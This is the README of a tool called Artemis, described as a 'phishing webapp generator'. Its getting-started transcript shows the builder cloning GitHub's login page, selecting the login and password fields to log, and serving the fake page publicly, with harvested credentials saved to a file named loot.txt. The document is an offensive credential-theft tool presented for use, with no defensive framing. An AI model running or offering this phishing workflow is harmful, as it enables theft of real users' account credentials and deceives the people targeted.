 # Artemis
Phishing webapp generator

## Getting started

```
$ pip install -r requirements.txt

$ ./builder.py 'https://github.com/login'
[*] Found forms:
FORM 0 --> /session
Form to log: 0
Selected form 0

[*] Form fields:
0 - utf8
1 - authenticity_token
2 - login
3 - password
4 - commit
Fields to log (comma separated, e.g 1,4,5): 2,3
Logging: ['login', 'password']

[*] Phishing page ready !
Run now ? (y/n)y
* Running on http://0.0.0.0:8000/ (Press CTRL+C to quit)

```

Gathered credentials are stored in loot.txt.

